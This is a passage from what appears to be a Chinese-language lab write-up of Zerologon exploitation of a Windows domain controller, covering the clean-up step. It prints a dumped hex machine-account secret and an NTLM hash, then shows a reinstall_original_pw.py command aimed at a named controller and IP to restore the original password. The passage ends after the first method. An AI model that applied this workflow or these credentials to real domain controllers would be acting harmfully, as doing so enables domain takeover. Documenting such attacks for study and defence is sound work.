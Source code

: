     ![Untitled](Zerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E%2051e6b1deec904700ab4e89dcc473305c/Untitled%2019.png)
    
    `$MACHINE.ACC:plain_password_hex` 后的值为下一步恢复密码需要的值
    
    域控密钥 (HEX) 为：
    
    ```
    2fb76130ee9ede18551764b9098c1327baf7e5a1760259dfa9de8f98690fd492c43fd7b7a5b0029e2f06b21fc2a29ecd6568f4af7b35f72a2f1756432f7b1765d6add82999303f449655a6453f6f6b5f4fb02c19bd387f5d1deee7668d3e925d566ee1caf4aa607939da6a201b92d93fabbb6c515901d800a841cc0020ee5757901de22d901cebcd59ba34895e300f0f9ee28e8ef029d68fa92d810fa7ee6155ce9edbe69790a1837f9dd376b05e3d1a9a2de7aa59ad71e028c4e1db9adaf766b06acf4e2c3970be66e37bc97b1ac57ffcbcd57b5f81b04b92f3e3a734af0d502223a5e3f5df769c2c9ad88b78cf29d
    ```
    
    NTLM HASH 为：
    
    ```
    aad3b435b51404eeaad3b435b51404ee:7ece30807d61b68b95c8d91024eef348
    ```
    
    然后用工具恢复，将注册表中 HASH 记录同步到 NTDS.DIT（即AD）：
    
    1. 方法一：利用 NT HASH 恢复：
        
        ```
        python3 reinstall_original_pw.py WIN-8GA56TNV3MV 192.168.21.132 7ece30807d61b68b95c8d91024eef348
        ```
        